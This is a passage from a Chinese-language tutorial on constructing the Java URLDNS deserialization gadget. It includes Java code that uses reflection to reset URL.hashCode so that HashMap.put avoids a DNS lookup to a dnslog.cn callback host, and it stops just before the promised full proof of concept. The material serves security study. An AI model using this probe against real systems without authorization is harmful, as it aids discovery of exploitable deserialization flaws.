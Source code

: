 但是我们不想要这一次的 dns 查询，那怎么办呢？回到URL#hashCode：

![1](./img/264.png)

这里会先判断 hashCode 是否为-1，如果不为 -1 则直接返回 hashCode ，也就是说我们只要在 put 前修改URL的 hashCode 为其他任意值，就可以在 put 时不触发 dns 查询。

![1](./img/272.png)

这里的 hashCode 是 private 修饰的，所以我们需要通过反射来修改其值。

```java
import java.lang.reflect.Field;
import java.util.HashMap;
import java.net.URL;

public class Lnh {
    public static void main(String[] args) throws Exception {
        HashMap map = new HashMap();
        URL url = new URL("http://xfeykt.dnslog.cn");
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true); //修改访问权限
        f.set(url,123); //设置hashCode值为123，这里可以是任何不为-1的数字
        System.out.println(url.hashCode()); // 获取hashCode的值，验证是否修改成功
        map.put(url,123); //调用map.put 此时将不会再触发dns查询
    }
}
```

此时输出 url 的 hashCode 为 123，证明修改成功。当 put 完毕之后再将 url 的 hashCode 修改为 -1，确保在反序列化调用 hashCode 方法时能够正常进行，下面是完整的POC： 
